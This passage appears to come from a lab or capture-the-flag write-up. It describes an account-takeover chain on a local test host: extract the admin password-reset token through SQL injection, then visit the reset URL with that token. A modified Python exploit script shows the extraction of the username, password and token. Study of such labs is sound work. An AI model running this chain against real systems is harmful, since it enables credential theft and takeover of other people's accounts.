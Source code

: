 ![](Untitled3.png)

Basically what we need to do is:

1. Reset the password for `admin`
2. Adjust our script to dump the token generated for `admin`
3. Visit `http://192.168.26.129/login/doResetPassword.php?token={TOKEN}`

To dump the Token we just need to modify the `main()` of our script as below:

```python
def main():
    if len(sys.argv) != 2:
        print("[-] Need IP")
        sys.exit(-1)

    ip = sys.argv[1]
    print("[+] Getting username")
    query = "username"
    username = inject(query, ip)
    
    print("[+] Getting password")
    query = "password"
    password = inject(query, ip)

    print("[+] Getting token")
    query = "token"
    token = inject(query, ip)

    print("[!] Creds are %s and %s" % (username, password))
    print("[!] Token for %s is = %s" % (username, token))
```

